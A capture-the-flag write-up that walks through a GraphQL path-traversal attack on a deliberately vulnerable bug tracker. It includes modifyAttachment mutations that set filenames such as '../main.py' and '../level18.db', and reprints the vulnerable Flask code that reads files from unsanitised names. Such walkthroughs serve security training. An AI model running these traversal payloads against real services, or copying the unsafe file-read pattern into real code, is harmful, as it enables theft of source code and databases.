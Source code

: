# BugDB v3

This is a cool CTF that illustrates how GraphQL can be used for arbitary file reading. 

Essentially the main vulnerability here is that the API does not restrict users from accessing file systems outside what they actually need - which is what will allow us to read senstive data from the database!!!

## Recon

### query

By referencing the schema (pro-tip: graphQL auto-complete is a lifesaver!) we are able to get a gerneral idea of how the data is structured:

```graphql
query{
  user{
    edges{
      node{
        id
        username
        bugs{
          edges{
            node{
              id
              private
              reporterId
              attachments{
                edges{
                  node{
                    id
                    bugId
                    filename
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

![](./imgs/query.jpg)

Important things to note are that their are 2 users, they have uploaded attachments, and these attachments have an ID.

### ### Mutations

By making a quick mutation to attach a file we can see that it is easy to add infomation to the bugs that have been submitted by Admin and User:

```graphql
mutation{
  attachFile(bugId:1, contents:"test"){
    ok
  }
}
```

![](./imgs/attachFile.jpg)

And make a query again, will see a new attachment is available.

![](./imgs/attachment.jpg)

So what good is this to us? Well if you navigate to the attachment via a path in the URL then we can see the data we submitted appears... very cool and very dangerous! 

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/content.jpg)

### modifyAttachment

So if we can add any data we want what happens if we modify the data we write to attempt a path traversal?

```graphql
mutation{
  modifyAttachment(id:1, filename:"../main.py"){
    ok
  }
}
```

![](./imgs/modifyAttachment.jpg)

![](./imgs/filename.jpg)

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/main.jpg)

We get the whole [main.py](./main.py) file!!!!!

```python
from flask import Flask, abort, redirect, request, Response 
from flask_graphql import GraphQLView 
from model import db_session, Attachment 
from schema import schema 

app = Flask(__name__) 

@app.route('/') 
def main(): 
  return 'GraphiQL' 

@app.route('/attachment/')
@app.route('/attachments/') 
def attachment(id): 
  attachment = Attachment.query.filter_by(id=id).first() 
  return file('attachments/%s' % attachment.filename, 'r').read() 

app.add_url_rule('/graphql', view_func=GraphQLView.as_view('graphql', schema=schema, graphiql=True, context={'session': db_session})) 

if __name__ == "__main__": 
  app.run(host='0.0.0.0', port=80) 
```

### Read model

So at the top we can see this app is importing `db_session` from `model`... which is definitely worth us taking a look at.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../model.py"){
    ok
  }
}
```

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1

![](./imgs/model.jpg)

Now we have the [model.py](./model.py) file.

```python
from sqlalchemy import create_engine 
from sqlalchemy.ext.declarative import declarative_base 
from sqlalchemy.orm import relationship, scoped_session, sessionmaker 
from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String 

engine = create_engine('sqlite:///level18.db', convert_unicode=True) 
db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) 
Base = declarative_base() 
Base.query = db_session.query_property() 

class User(Base): 
  __tablename__ = 'users' 
  id = Column(Integer, primary_key=True) 
  username = Column(String(255)) 
  password = Column(String(255)) 
  bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') 

class Bug(Base): 
  __tablename__ = 'bugs' 
  id = Column(Integer, primary_key=True) 
  reporter_id = Column(Integer, ForeignKey('users.id')) 
  reporter = relationship(User, primaryjoin=reporter_id == User.id) 
  text = Column(Text(65536)) private = Column(Boolean()) 
  attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') 

class Attachment(Base): 
  __tablename__ = 'attachments' 
  id = Column(Integer, primary_key=True) 
  bug_id = Column(Integer, ForeignKey('bugs.id')) 
  bug = relationship(Bug, primaryjoin=bug_id == Bug.id) 
  filename = Column(String(255))
```

Now we see that `engine` is set to `sqlite:///level18.db`which looks realllllly interesting. So if we try to read this using the same path traversal.....

```graphql
mutation{
  modifyAttachment(id:1, filename:"../level18.db"){
    ok
  }
}
```

.... we get the FLAG!!!!

![](./imgs/flag.jpg)